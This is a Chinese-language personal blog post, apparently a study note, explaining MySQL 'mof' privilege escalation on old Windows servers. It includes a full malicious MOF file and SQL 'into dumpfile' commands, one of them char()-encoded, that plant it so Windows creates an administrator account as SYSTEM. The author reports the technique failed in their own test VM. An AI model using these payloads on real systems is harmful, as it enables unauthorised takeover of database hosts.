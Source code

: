 ```yaml
---
layout: post
title: mof提权
key: 20180620
tags: MySQL提权
---
```


第一次接触提权，先看了个最简单的，哈哈哈哈，看了几个视频和文章，然后整理了一下，估计很多不对的地方，等真正了解了就回来改掉。

<!--more-->

## 原理  
mof是Windows系统的一个文件，位于c:\windows\system32\wbem\mof\nullevt.mof，叫做托管对象格式，
它的作用是每隔5秒，就会去监控进程的创建和死亡。mof提权的简单利用过程就是，拥有了MySQL的root权限
后，使用root权限去执行上传操作，将我们重新改写过的mof文件上传，之后，这个文件会被服务器每隔5秒
以system权限执行。这个改写的mof中，有一段是vbs脚本，这个vbs大多数是cmd的添加管理员用户的命令。
  
  
## 为什么可以提权？  
可以提权的根本原因是因为有一个更高权限的线程执行了命令。我们这里nullevt.mof文件的加载过程由system
用户执行，因此我们可以最高把用户的权限提升到system。  
  
  
## 利用条件  
- Windows版本<=2003  
- c:\windows\system32\wbem\mof目录可写入  
- 数据库允许外连，且已知root账号密码  
  
 
## 利用代码  
> # pragma namespace("\\.\root\subscription")

instance of **EventFilter as $EventFilter{    EventNamespace = "Root\Cimv2";    Name  = "filtP2";    Query = "Select \* From **InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add")";
};

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};  
其中的关键就在于第14行的“net.exe user admin admin /add”，这句是用来创建一个用户名为admin，密码为admin的用户，创建成功后，再将这句命令改为
“net.exe localgroup administrators admin /add”后，再次上传，达到创建admin用户并将其加入administrators组的目的。  
  
## 利用过程  
  
### 拥有网站webshell时  
如果已经得到了该网站的webshell，那么可以将nullevt.mof文件上传到c盘的的可写目录xxx，然后执行下面的SQL命令即可  
>select load_file('c:\xxx\nullevt.mof') into dumpfile'c:\windows\system32\wbem\mof\nullevt.mof';  
这里可以看下dumpfile与outfile的区别，对于outfile来说，into outfile会自动添加换行符等操作，适用于文本文件，因为会产生冗余数据，会导致我们的命令执行
失败。而into dumpfile是将文件以二进制的方式写入，因此这里我们用into dumpfile。  
  
### 未拥有网站webshell  
对于没有网站webshell的情况，我们可以采取连接数据库后直接写入的方式，将代码转换为ASCII码后，直接传入。  
>select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,
115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,
116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,
115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,
108,116,80,50,34,59,13,10,32,32,32,32,81,117,101,114,121,32,61,32,34,83,101,108,101,99,116,32,42,32,70,114,111,109,32,95,95,73,110,
115,116,97,110,99,101,77,111,100,105,102,105,99,97,116,105,111,110,69,118,101,110,116,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,
32,34,87,104,101,114,101,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,32,73,115,97,32,92,34,87,105,110,51,50,95,76,111,99,
97,108,84,105,109,101,92,34,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,65,110,100,32,84,97,114,103,101,116,73,110,115,116,
97,110,99,101,46,83,101,99,111,110,100,32,61,32,53,34,59,13,10,32,32,32,32,81,117,101,114,121,76,97,110,103,117,97,103,101,32,61,
32,34,87,81,76,34,59,13,10,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,65,99,116,105,118,101,83,99,114,105,112,
116,69,118,101,110,116,67,111,110,115,117,109,101,114,32,97,115,32,36,67,111,110,115,117,109,101,114,13,10,123,13,10,32,32,32,32,
78,97,109,101,32,61,32,34,99,111,110,115,80,67,83,86,50,34,59,13,10,32,32,32,32,83,99,114,105,112,116,105,110,103,69,110,103,105,
110,101,32,61,32,34,74,83,99,114,105,112,116,34,59,13,10,32,32,32,32,83,99,114,105,112,116,84,101,120,116,32,61,13,10,32,32,32,32,
34,118,97,114,32,87,83,72,32,61,32,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,92,34,87,83,99,114,105,112,116,
46,83,104,101,108,108,92,34,41,92,110,87,83,72,46,114,117,110,40,92,34,110,101,116,46,101,120,101,32,108,111,99,97,108,103,114,111,
117,112,32,97,100,109,105,110,105,115,116,114,97,116,111,114,115,32,97,100,109,105,110,32,47,97,100,100,92,34,41,34,59,13,10,32,125,
59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,70,105,108,116,101,114,84,111,67,111,110,115,117,109,101,114,66,105,
110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,
13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,
110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile  'c:\windows\system32\wbem\mof\nullevt.mof';  
  
## 总结  
emmmmm，这估计现在应该很少可以成功了，利用的条件都很落后了，感觉应该不会存在了...我在自己的虚拟机里面复现并没有成功，尴尬，我的虚拟机那个
文件夹可以写入，但是写入后会自动创建个名字叫做bad的文件夹，然后将我的nullevt.mof移动到里面去，这是什么原因呢，暂时还不知道，网上搜了下，也
没看到什么解释，等找个时间问问dalao，在来补充吧...  
  
>离职了，想找新工作了，加油吧!!!! >_<
